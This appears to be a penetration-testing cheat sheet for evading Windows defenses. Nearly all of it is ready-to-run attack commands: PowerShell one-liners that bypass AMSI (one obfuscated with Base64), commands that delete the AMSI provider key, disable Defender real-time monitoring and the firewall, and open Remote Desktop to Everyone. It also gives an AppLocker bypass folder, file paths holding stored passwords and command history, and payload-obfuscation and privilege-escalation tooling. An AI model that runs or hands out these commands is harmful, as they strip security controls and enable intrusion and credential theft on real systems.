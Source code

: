 #  Bypass Windows AMSI / AV Evasion
- Using commands in shell:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse

Set-MpPreference -DisableRealtimeMonitoring $true
```
- Using 
- Using [AMSITrigger.exe](https://github.com/RythmStick/AMSITrigger). This will show powershell triggers and help to modify the payload manually. 
```powershell
AmsiTrigger.exe -i shell.ps1
```
- Using [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation). As it encodes the payload in numerous ways.
```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
SET SCRIPTBLOCK <Payload>
OR
SET SCRIPTPATH <URL of payload>
```

# Disable real-time protection on Windows.
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

# Turn Firewall off on Windows:
```bash
netsh advfirewall set allprofiles state off
```
# Remote Desktop Connection:
```bash
net localgroup "Remote Desktop Users" Everyone /Add
```

## Bypass Windows Applocker

- Safer location for executing binaries.

 `C:\Windows\System32\spool\drivers\color`

# Powershell command history

  `\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

# Users' passwords in base64 encoding.

  `C:\Windows\Panther\Unattend\Unattended.xml`

# Privilege Escalation

- Use [PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)

   ```powershell
   . .\PowerUp.ps1
  Invoke-AllChecks
  ```
